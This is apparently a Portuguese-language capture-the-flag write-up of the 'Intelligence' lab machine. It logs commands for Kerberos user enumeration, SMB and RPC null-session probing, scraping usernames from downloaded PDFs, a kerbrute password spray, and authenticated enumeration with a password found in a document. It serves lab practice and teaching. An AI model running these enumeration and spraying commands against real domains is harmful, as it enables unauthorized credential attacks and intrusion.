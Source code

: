       sudo ./kerbrute_linux_amd64 userenum -d intelligence.htb --dc intelligence.htb /usr/share/
      wordlists/rockyou.txt

![qownnotes-media-oVhUkv](../../../media/qownnotes-media-oVhUkv.png)

Tentativa de smb null session:

    smbmap -H 10.10.10.248
    
Enumeração recursiva:

    smbmap -H 10.10.10.248 -R
    
rpcclient test:

    rpcclient -c lookupnames jose.williams -I 10.10.10.248 -N 
    
 Nada relevante. rpcenum:
 
     impacket-rpcdump @10.10.10.248
     
  Retornando ao primeiro passo pra conseguir  enumerar usuários do sistema:
  
      for i in `seq -f "%02.0f" 1 30`; do wget http://intelligence.htb/documents/2020-12-$i-upload.pdf && pdfinfo 2020-12-$i-upload.pdf;done 2>/dev/null  | grep Creator
  
Devo ressaltar que eu fui alterando de mês a mês na unha.

depois eu gerei uma wordlist por meio do site com a ferramenta cewl:

    cewl http://intelligence.htb > passwords.txt
    
    #password spray
    
    for i in `cat passwords.txt`; do kerbrute passwordspray -d intelligence.htb --dc intelligence.htb usernames.txt $i; done
 
 Tentativa de enumerar via RPCCLIENT sem a utilização de credencial
 
   
    for i in `cat usernames.txt`; do rpcclient -N -U $i intelligence.htb;done
    
Tentativa de enumerar via rpcclient, no entanto qualquer coisa a ser executada com isto não funciona (ACCESS_DENIED)
    
    rpcclient -N -U '' 10.10.10.248
    
    enum4linux -a 10.10.10.248
    
Voltamos nos  PDFs para olhar alguma coias a mais lá. Achamos uma credencial sem ser trocada por meio do arquivo de 
20-06-04-upload.pdf
com a senha:

NewIntelligenceCorpUser9876


Então, iniciamos o trabalho de enumeração das coisas já com credencial:

    enum4linux -u intelligence.htb/Tiffany.Molina -p NewIntelligenceCorpUser9876 -a 10.10.10.248
    
    nmap -p 445,139 --script smb-os-discovery.nse intelligence.htb
    nmap -p 445,139 --script smb-system-info.nse intelligence.htb
    nbtscan intelligence.htb
    nbtscan 10.10.10.248
    # Null session test
    smbclient -I 10.10.10.248 -L ACTIVE -N -U ""
    